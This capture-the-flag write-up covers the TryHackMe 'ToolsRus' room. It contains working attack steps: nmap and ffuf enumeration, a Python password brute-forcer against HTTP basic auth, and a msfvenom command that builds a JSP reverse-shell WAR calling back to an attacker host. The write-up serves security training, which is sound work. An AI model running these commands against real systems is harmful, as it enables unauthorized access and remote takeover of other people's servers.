



# ToolsRus (THM)

- https://tryhackme.com/room/toolsrus
- March 5, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 109/pop2 no-response
4. 683/tcp corba-iiop no-response
5. 1234/http Apache Tomcat/Coyote JSP engine 1.1
   - Apache-Coyote/1.1
   - Apache Tomcat/7.0.88
6. 3013/tcp gilatskysurfer no-response
7. 8009/ajp13 Apache Jserv (Protocol v1.3)
8. 8042/tcp filtered fs-agent no-response
9. 9220/tcp filtered unknown no-response
10. 10001/tcp filtered scp-config no-response
11. 33354/tcp filtered unknown no-response
12. 38292/tcp filtered landesk-cba no-response

### 80/http

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt -e php,txt -c -t 128
```

- found `guidelines`, `protected`
- http://$IP/guidelines/

```
Hey bob, did you update that TomCat server?
```

- in `protected`, it asks for basic authentication
- write python script to check password

```python
import requests 

url = "http://10.10.39.251/protected/"
s = requests.Session()

with open('/usr/share/wordlists/rockyou.txt', 'r', errors='replace') as f:
    pwds = f.readlines()
    for pwd in pwds:
        pwd = pwd.strip()
        r  =requests.get(url, auth=('bob', pwd))

        print(f"> {pwd} - {r.status_code}")
        if r.status_code != 401:
            break 
```
- found `bob:bubbles`

### 1234/http

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP:1234/FUZZ -w /usr/share/wordlists/common.txt -e jsp,txt -c -t 128
docs          [Status: 302, Size: 0, Words: 1, Lines: 1]
examples      [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico   [Status: 200, Size: 21588, Words: 19, Lines: 22]
host-manager  [Status: 302, Size: 0, Words: 1, Lines: 1]
manager       [Status: 302, Size: 0, Words: 1, Lines: 1]

```
- can enter manager login page with above credentials



- first create payload with war file which will connect to our local machine

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.8.57 LPORT=4242 -f war -o revshell.war
```

- then upload that revshell.war file here



- listen with nc at local machine and click this




- got root access directly

---